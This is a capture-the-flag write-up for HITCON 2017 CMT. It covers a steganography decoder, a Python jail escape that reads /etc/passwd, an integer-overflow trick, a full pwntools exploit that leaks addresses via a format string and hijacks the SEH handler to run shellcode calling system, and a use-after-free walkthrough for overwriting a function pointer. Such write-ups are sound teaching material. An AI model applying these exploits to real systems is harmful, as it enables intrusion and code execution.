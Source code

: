 # HITCON 2017 CMT Writeup

## MISC
### Hello world
`HITCON{Hack the planet !}`
### Stegofun4u

- decode.py

```
#!/usr/bin/python
from PIL import Image
data = ""
im = Image.open("./en.png")
pix = im.load()
width, height = im.size
encode_image = Image.new("RGB",(width,height))
newpix = encode_image.load()
x,y = (0,0)

count = 0
for i in range(x,width,1):
        for j in range(y,height,1):
                data += str((pix[i,j][0] & 0x2) >> 1) + str(pix[i,j][1] & 0x1) + str((pix[i,j][2] & 0x4) >> 2)

data_raw =  ''.join(chr(int(data[i*8:i*8+8],2)) for i in range(len(data)//8))
f = open("solve.jpg","w")
f.write(data_raw)
```
Then you will get the picture.
![](solve.jpg)

The picture is a little corruption, you need to fixed it.
That is, the end of jpg is 0xffd9.

After fixed it, use outguess and the key `sh3llw3pl4yth3g4m4` to extract the flag.

### Pyjail
Use the warnings message
`sys.modules['_warnings'].warn_explicit("default",UserWarning,"/etc/passwd",1)`

## Pwnable

### Power Station
It's a little captcha challenge and it has a integer overflow vulnerability in time out function

```
void sig_alarm_handler(int signum){
    unsigned int choice ;
    puts("Power failure");
    printf("Do you want to continue ? (1:yes 2:no)");
    choice = read_int();
    if(choice == 1){
        puts("You lost a little power");
        power -= 50;
        return;
    }else{
        exit(1);
    }
}
```
- You can let the power less than 50 and wait until time out, you would get a very large power.

- You can let power equal to 2000 and buy Nuclear reactor and Solar cell panel than your power will less than 50.


### Imagic
- Vulnerability 
	- Out of bound and buffer overflow in save image.
	- Format string

- Protection
	- Stack cookie 
	- No DEP
	- NO SEHOP,SafeSEH

- Exploit
	- First connection 
		- Use format string vulnerability to leak code base 
	- Second connection 
		- Overwrite the SEH Handler
		- Trigger the SEH and jmp to shellcode
			- You can use `%s` to dereference invailed memory area then it would trigger exception.

```
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *

host = "54.199.221.215"
port = 50216
r = remote(host,port)
r.recvuntil(":")
r.sendline("#%p#")
r.recvuntil(":")
r.sendline("3")
r.recvuntil("#")
codeaddr = int(r.recvuntil("#")[:-1],16)
r.close()
r = remote(host,port)
codebase = codeaddr-0x19610
sc = asm("pop eax;pop eax;pop eax;sub eax,0x40;jmp eax",arch="i386")
name = "%s%s%s%s" + sc
nameaddr = codebase + 0x1c2ac
ret = codebase + 0x1281
system = codebase + 0x1260
scaddr = codebase+0x1c2b4
cmd = codebase + 0x14ab4
main = codebase+0x10e0
r.recvuntil(":")
r.send(name)


def save(size,data):
    r.recvuntil(":")
    r.sendline("1")
    r.recvuntil(":")
    r.sendline(str(size))
    r.recvuntil(":")
    r.sendline(data)

save(255,"a"*254)
save(255,"b"*254)
save(255,"c"*254)
save(255,"d"*254)
sc = asm("push 0x%x;mov eax,0x%x;jmp eax" % (cmd,system),arch="i386")
payload = "\x90"*0x30 + sc
save(255,payload.ljust(0x60,"\x90") + p32(scaddr))
r.recvuntil(":")
r.sendline("3")
r.interactive()
```

### ddos
- Vulnerability
	- Use After free in the run function
		- It doesn't check the inused flag when it run.

- Exploit
	- How to use the UAF vulnerability ?
		- [heap exploitation](https://www.slideshare.net/AngelBoy1/heap-exploitation-51891400) p39-44
		- Put the command in the username buffer.
		- Add a target
			- It will allocate a struct and a buffer of RHOST. 
		- Remove the target
			- Release the struct and the buffer of RHOST, but it does not set pointer of the struct to NULL. 
		- Add a target
			-  Use the old struct and allocate a buffer, it wound get same address as the old struct.
			-  You can use it to overwrite the function pointer and name pointer in the structure.
			-  You need to let the name pointer point to `usename buffer` and let the function pointer point to `system`
		- Run
			- trigger the function call 

	- payload
		- Add a target
			- "a"*0x18
		- Remove the target
		- Add a target
			- `*^Gp^Ta\n`
		- Run
